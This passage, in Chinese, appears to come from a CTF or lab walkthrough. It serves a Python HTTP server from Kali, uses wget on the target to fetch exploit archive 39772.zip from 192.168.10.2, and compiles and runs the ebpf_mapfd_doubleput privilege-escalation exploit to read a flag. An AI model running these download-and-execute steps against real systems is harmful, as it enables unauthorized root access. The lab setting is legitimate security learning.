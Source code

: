 在`kali`中使用`python3`开启简易的`http`服务，并且在压缩包所在目录

```shell
python3 -m http.server 8888
```

这里因为图片比较长，并且都是解压操作，都很简单，所以就放命令了

```shell
#全是在靶机内执行的
cd /tmp
wget http://192.168.10.2:8888/39772.zip

unzip 39772.zip
cd 39772	#解压后的目录
tar -xvf exploit.tar	#解压后目录中的tar包再解压

cd ebpf_mapfd_doubleput_exploit		#tar解压后的目录

#下面按照文本中给出的提示进行操作即可
bash compile.sh
chmod +x doubleput
./doubleput
```

![](./pic-3/24.jpg)

查看`flag`
